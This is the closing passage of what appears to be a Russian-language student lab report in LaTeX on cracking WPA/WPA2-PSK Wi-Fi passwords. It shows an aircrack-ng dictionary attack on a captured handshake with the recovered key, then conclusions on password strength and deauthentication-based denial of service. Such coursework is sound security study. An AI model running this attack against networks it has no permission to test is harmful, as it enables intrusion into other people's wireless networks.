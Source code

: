 \documentclass{article}
\begin{document}
Так как используемый пароль слишком сложный, в некоторую часть словаря был вставлен искомый пароль.

\begin{verbatim}
crazy-mini alex # aircrack-ng dump-05.cap -w English.dic 
Opening dump-05.cap
Read 20931 packets.

   #  BSSID              ESSID                     Encryption

   1  1C:7E:E5:39:26:F8  18                        WPA (1 handshake)

Choosing first network as target.

Opening dump-05.cap
Reading packets, please wait...

                                 Aircrack-ng 1.1


                   [00:01:51] 91444 keys tested (845.44 k/s)


                         KEY FOUND! [ execombat112 ]


      Master Key     : CB A9 50 ED 43 34 9F 6E C1 CD 22 48 71 3C 21 F3 
                       7D 11 CE BF 37 E0 B4 62 CE 4B EC 03 32 DB 47 B1 

      Transient Key  : 9B 6F B4 1A E5 6C E0 96 13 BD CB 53 47 F5 E6 AE 
                       74 18 DC B4 6B 74 CE AF CD 52 B1 E8 A3 00 73 B8 
                       43 D3 84 3B C2 74 7C 4E BE 74 3B A5 80 5D 4F 92 
                       25 8C 45 86 45 97 1A 41 E6 58 18 9E 94 FE 1C BB 

      EAPOL HMAC     : 23 38 A3 41 34 98 88 00 4C 73 54 67 39 E9 DB 87 
\end{verbatim}

\section{Выводы}

В ходе данной работы были изучены основные возможности пакеты Air Crack и принципы взлома WPA/WPA2 PSK. Данный инструмент позволяет прослушивать пакеты, генерировать новые и на основе handshake осуществлять взлом пароля сети. Следует отметить, что пароли, отвечающие требованиям не представляется возможном взломать, так как единственный возможный вариант - это перебор паролей. Таким образом, нельзя сказать, что протокол WPA уязвим на данный момент. С другой стороны, гораздо большей проблемой является возможность деаутентифицировать пользователя любой сети. Данная возможность открывает возможность атаки с целью отказа в обслуживании.

В общем случае, следует отметить, что защита беспроводных сетей непростая задача и в качестве меры для базового обеспечения безопасности не следует использовать протокол WEP и простые пароли.
 
\end{document}
